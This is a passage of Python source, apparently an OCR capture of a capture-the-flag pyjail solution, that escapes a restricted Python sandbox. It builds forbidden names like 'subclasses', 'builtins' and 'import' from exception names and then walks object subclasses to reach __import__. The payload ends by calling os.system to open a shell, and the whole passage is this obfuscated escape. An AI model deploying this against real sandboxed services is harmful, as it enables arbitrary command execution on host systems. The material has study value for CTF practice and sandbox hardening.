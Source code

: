 ```python
    for s in getgen(excs.name): pass

try: h
except exc as exch:
    for h in getgen(exch.name): pass

try:
    for dot in filterdot(excasyncarg):
        (opencurly + zero + dot + underscore + underscore + clas + underscore + underscore + dot + underscore + underscore + base + underscore + underscore + dot + underscore + underscore + subclasses + underscore + underscore + dot + d+d+d+d+d+d+d+d+d + closecurly).format(())
except exc as excsubclassesfn:
    for subclasses in getgen(excsubclassesfn.obj()): pass

try: builtins
except exc as excbuiltins:
    for builtins in getgen(excbuiltins.name): pass

try: init
except exc as excinit:
    for init in getgen(excinit.name): pass

try: imp
except exc as excimp:
    for imp in getgen(excimp.name): pass
try: ort
except exc as excort:
    for ort in getgen(excort.name): pass

for subclass in subclasses:
    try:
        (opencurly + zero + dot + underscore + underscore + init + underscore + underscore + dot + underscore + underscore + builtins + underscore + underscore + opensquare + underscore + underscore + imp+ort + underscore + underscore + closesquare + closecurly).format(subclass)
    except: continue

    try:
        (opencurly + zero + dot + underscore + underscore + init + underscore + underscore + dot + underscore + underscore + builtins + underscore + underscore + opensquare + underscore + underscore + imp+ort + underscore + underscore + closesquare + dot + d+d+d+d+d+d+d + closecurly).format(subclass)
    except exc as excfnimport:
        for fnimport in getgen(excfnimport.obj): pass
    fnimport(o+s).system(s+h)
    break
```
